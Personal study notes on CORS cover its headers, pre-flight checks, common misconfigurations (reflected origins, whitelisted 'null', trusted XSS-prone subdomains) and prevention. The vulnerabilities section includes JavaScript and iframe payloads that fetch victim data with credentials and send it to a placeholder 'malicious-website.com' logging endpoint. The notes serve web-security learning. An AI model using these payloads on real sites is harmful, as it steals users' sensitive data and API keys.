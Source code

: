 
### General Notes

> Cross-Origin Resource Sharing.
> Browser mechanism that enables controlled access to resources located outside of a domain, and adds flexibility to [[Same Origin Policy (SOP)]].

> The CORS [[Protocol]] uses [[HTTP#Header]]s that define trusted origins, and properties for each with given [[Authentication]] and [[Access Control]] permissions.
> These headers are used between the browser and the web site located in a different origin. (cross-origin).

> CORS relaxes the [[Same Origin Policy (SOP)]] for [[HTTP]] requests between websites with different domains through the use of HTTP headers.
> CORS doesn't protect against [[CSRF]].

---

### `Access-Control-Allow-Origin` (ACAO) response header

> This header is returned by a server when a website requests resources across domains with the `Origin` header.
> The browser compares values in this header with the requesting web `Origin` header and gives permissions.
> The `Access-Control-Allow-Origin` header can have values of:
* Multiple origins. (No browser supports this).
* `null`
* `*`

###### Transferring Cookies, Certificates, and Credentials

> CORS allows for sharing credentials or authorization [[Cookies]] through the response header `Access-Control-Allow-Credentials` (ACAC).
> If it is set to true in the response, then the cookies being sent in the request will be allowed to be read.
> Using the header `Access-Control-Allow-Origin` set to the value `*` cannot be combined with `Access-Control-Allow-Credentials` set to `true`.

###### Pre-Flight Checks

> Used to protect legacy resources.
> When a cross-domain request uses a non standard [[HTTP]] method or headers, this request is preceded by one with the `OPTIONS` method, and an initial check is made regarding the permitted methods and headers.
> The server returns allowed methods and the trusted origin.

> A cross-domain request will be first preceded by `OPTIONS` request with the method and headers used of this request.
> The server responds with the allowed origin, the allowed methods, the allowed verbs, and the caching time of the preflight response.

---

### CORS Vulnerabilities

> Some applications simply read the `origin` header from the incoming request, and then respond with the ACAO header set to the value in that `origin` header.
> They can also respond with the ACAC header to allow including [[Cookies]].
> If a [[CSRF]] token or [[Application Programming Interface (API)]] key is included in the response, use this payload.

```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

###### Error parsing Origin headers

> Supporting multiple origins usually works by having a whitelist.
> A request with the origin header has its value compared against whitelist, if it is found, then the ACAO header is added to the response.
> This matching with the whitelist can be played around by appending to the end or the beginning, or by using regular expressions.
* The beginning by testing if it allows all subdomains.
* To the end if it simply checks the required origin is present.

> Sometimes the value `null` is whitelisted.
> Browsers can send `null` in the origin header in:
* Cross-origin redirects.
* Requests from serialized data.
* Requests using `file:` [[Protocol]].
* Sandboxed cross-origin requests.

> If the server responds with ACAO with value `null`, then we can bypass it by generating a cross-origin request containing `null` in the origin header satisfying the whitelist.
> Adding the payload we have in an `iframe` sandbox will appear as if it is coming from the null origin.

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
}; </script>">
</iframe>
```

###### Exploiting [[Cross Site Scripting (XSS)]] via CORS

> If a website trusts an origin that is vulnerable to [[Cross Site Scripting (XSS)]], attacker can inject JavaScript that uses CORS.
> Given the following request:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

> If the server responds with:
```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

> Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
> `cors-stuff` is the CORS payload that issues a request above. [[CORS#CORS Vulnerabilities]].

###### Breaking TLS ([[Transport Layer]] Security)

> Application that has [[HTTPS]] whitelists a subdomain using [[HTTP]].
> Attackers that can intercept traffic between these two locations can compromise the victims interaction with the application.
> Methodology: [(TLS)](https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors).

---

### Preventing CORS

* Proper configuration of cross-originr requests with the properly specified ACAO headers.
* Only allow truster websites with the hedaers.
* Avoid whitelisting the `null` value in the ACAO header.
* Avoid wildcards in internal networks. (`*`).
* Not a replacement for server-side protection.

---
